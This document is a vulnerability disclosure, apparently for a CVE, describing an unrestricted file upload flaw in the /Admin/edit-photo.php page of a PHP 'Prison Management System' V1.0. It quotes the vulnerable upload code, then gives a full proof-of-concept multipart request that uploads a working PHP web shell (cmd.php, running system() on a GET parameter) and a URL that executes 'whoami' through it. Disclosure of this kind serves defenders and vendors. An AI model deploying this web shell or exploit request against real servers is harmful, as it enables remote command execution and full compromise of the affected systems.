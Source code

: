 Prison Management System - File upload on (/Admin/edit-photo.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Admin/edit-photo.php
```

Using `$_FILES["avatar"]["name"]` as the filename on the server can lead to file upload attacks.

```
if(isset($_POST["btnsave"]))
{
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpeg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$error = 'Only jpeg,Webp, gif, and png files are allowed.';
 // exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"../uploadImage/" . $_FILES["avatar"]["name"]);
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

Proof of vulnerability:

Upload a jpg, capture the packet, modify the file content to malicious code, and modify the file suffix to php

Request:

```
POST /Admin/edit-photo.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------15577034693547569057115635772
Content-Length: 646
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/Admin/edit-photo.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="avatar"; filename="cmd.php"
Content-Type: image/jpeg

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
-----------------------------15577034693547569057115635772
Content-Disposition: form-data; name="btnsave"


-----------------------------15577034693547569057115635772--
```

```
http://localhost:8888/uploadImage/cmd.php?cmd=whoami
```




<img width="948" alt="image" src="https://github.com/fubxx/CVE/assets/135971045/33c22ca2-0aa4-4136-a671-dd889083daf7">
